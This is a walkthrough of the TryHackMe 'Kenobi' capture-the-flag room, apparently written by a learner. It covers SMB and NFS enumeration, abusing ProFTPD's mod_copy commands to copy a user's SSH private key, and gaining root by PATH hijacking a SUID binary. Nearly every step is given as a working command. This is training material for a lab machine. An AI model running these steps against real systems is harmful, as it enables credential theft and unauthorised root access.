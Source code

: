 ```yaml
---
description: 'This is my walkthrough for the TryHackMe Room: Kenobi.'
---
```


# Kenobi

This room can be found [here](https://tryhackme.com/room/kenobi). This will be exploiting a linux machine, enumerate Samba for shares, manipulate a vulnerable version of proftpd and escalate your privileges with path variable manipulation.

I will be going through room using the attackbox

## Task 1

### Question #1: Scan the machine with nmap, how many ports are open?

`sudo nmap -sS -sV -vv -oA Kenobi 10.10.95.185`

Our results show us the answer:

![](<../.gitbook/assets/image (156).png>)

## Task 2

### Question #1: Using the nmap command above, how many shares have been found?

This asks us to run the nmap scan `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.95.185` to find the shares.&#x20;

### Question #2: Once you're connected, list the files on the share. What is the file can you see?

We can connect to the machine via SMB with `smbclient //10.10.95.185/anonymous`.When prompted for a password, we can press enter to connect with no password.

Once we're connected we can run `ls` to see what files are there. We can download the file(s) with `smbget -R smb://10.10.95.185/anonymous`.  Again pressing enter when prompted for a password for a blank/empty password.

### Question #3: What port is FTP running on?

Refer back to our Nmap scan.

### Question #4: What mount can we see?

Running the nmap scan `nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.95.185` we can see the mount point.

## Task 3

### Question #1: What is the version?

Referring back to our Nmap scan result again we can find the ProFtpd version.

### Question #2: How many exploits are there for the ProFTPd running?

We can use [searchsploit](https://github.com/offensive-security/exploitdb) or [exploit-db](https://www.exploit-db.com/) to find the exploits. As the room states, we should have found exploit from ProFtpd's [mod\_copy module](http://www.proftpd.org/docs/contrib/mod\_copy.html). So now now we are going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands.

First connect to the target via FTP with netcat with `nc 10.10.95.185 21`.

Then we `SITE CPFR /home/kenobi/.ssh/id_rsa`.

Finally `SITE CPTO /var/tmp/id_rsa`.

This does a "copy from" selecting the file name, and "copy to" selecting where you're copying the file to.

### Question #3: What is Kenobi's user flag (/home/kenobi/user.txt)?

Since we know the /var is a mount point, we can mount that to our machine and copy the files we need from there.

We can easily follow the rooms directions to create a mount point and mount the /var directory to the newly created mount point.

`mkdir /mnt/kenobiNFS`

`mount` 10.10.95.185`:/var /mnt/kenobiNFS`&#x20;

`ls -la /mnt/kenobiNFS`

Now that we have this mounted, we can go into the `tmp` directory to get the `id_rsa` file we copied to that directory. `cp /mnt/kenobiNFS/tmp/id_rda .` and then we change permissions on that file so we can use the file. `sudo chmod 600 id_rsa`. Finally we can now ssh into the machine and obtain the flag!

`ssh -i id_rsa kenobi@10.10.95.185` and after we have established a connection, `cat /home/kenobi/user.txt`.

## Task 4

We will be looking for SUID bits to able to manipulate so we can escalate to the root user.

As the room states, we can find SUID bits with `find / -perm -u=s -type f 2>/dev/null`.

### Question #1: What file looks particularly out of the ordinary?

Some of these might not jump out to new users right away, but the `/usr/bin/menu` file stands out a bit.

### Question #2: Run the binary, how many options appear?

What happens when we run the command `menu`?

![](<../.gitbook/assets/image (13) (1).png>)

Strings is a command on Linux that looks for human readable strings on a binary. This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname). As this file runs as the root users privileges, we can manipulate our path gain a root shell.

So as the room states, we can:

`cd tmp && echo /bin/sh > curl`

`chmod 777 curl`

`export PATH=/tmp:$PATH`

`/usr/bin/menu`

So now if we type 1 for our status check we should be the root user.

This creates a file called `curl` with the contents `/bin/sh`, changed the permissions, and adds the `/tmp` directory to the path so when the "status check" is run from the `menu` command and it runs curl, it's actually running /bin/sh giving us root permissions.

### Question #3: What is the root flag (/root/root.txt)?

`cat /root/root.txt`
